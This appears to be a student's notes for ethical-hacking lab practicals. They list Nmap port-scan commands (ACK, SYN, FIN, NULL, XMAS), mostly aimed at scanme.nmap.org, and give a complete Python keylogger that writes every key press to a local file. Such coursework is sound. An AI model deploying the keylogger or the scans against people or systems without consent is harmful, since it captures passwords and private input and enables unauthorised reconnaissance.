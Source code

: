 EH practicals:

practical 4:Using Nmap scanner to perform port scanning of various
forms – ACK, SYN, FIN, NULL, XMAS.

1)ACK -sA (TCP ACK scan)
 nmap -sA -T4 scanme.nmap.org

2)SYN (Stealth) Scan (-sS) 
nmap -p22,113,139 scanme.nmap.org

3)FIN Scan (-sF) 
nmap -sF -T4 para

4)NULL Scan (-sN)
nmap –sN –p 22 scanme.nmap.org

5)XMAS Scan (-sX) 
nmap -sX -T4 scanme.nmap.org


practical 9:
Create a simple keylogger using Python.

from pynput.keyboard import Key, Listener
log_file_path = "Downloads/keylog.txt"
def write_to_log(key):
    with open(log_file_path, "a") as f:       
        f.write(str(key))        
        if key == Key.enter:
            f.write("\n")
def on_press(key):
    write_to_log(key)
def on_release(key):
    if key == Key.esc:
        return False
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
